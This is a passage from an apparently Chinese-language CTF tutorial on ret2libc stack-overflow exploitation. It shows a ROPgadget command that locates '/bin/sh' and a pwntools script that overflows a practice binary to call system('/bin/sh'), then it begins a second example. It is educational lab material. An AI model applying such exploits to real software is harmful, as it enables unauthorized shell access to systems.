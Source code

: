 [![](assets/1701612384-0f64d8dc34edc2b4bf76045b994f8e29.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204258-7a4441a2-167a-1.png)

[![](assets/1701612384-10dd03a31cd269a8dc0b9e3cd23a4959.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204302-7cb3815a-167a-1.png)

再利用 ROPgadget 查一下/bin/sh 的地址

```plain
ROPgadget --binary ret2libc1 --string "/bin/sh"
```

[![](assets/1701612384-4fd3aee7934db695f1bb3ba413512361.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204307-7f300516-167a-1.png)

exp:

```plain
from pwn import *

io=process("./ret2libc1")
elf = ELF("./ret2libc1")
print(elf.plt["system"])
sys_plt_addr=0x8048460
binsh_addr =0x08048720
payload=b'A'*112 +p32(sys_plt_addr)+b'a'*4+p32(binsh_addr)
#payload=flat([b'A'*112,sys_plt_addr,b'a'*4,binsh_addr])
io.sendline(payload)
io.interactive()
```

例题二 ret2libc2

首先 checksec 检查保护

[![](assets/1701612384-251ef648f05af8c3615bc2527b5eb4a9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629204312-82b10668-167a-1.png)

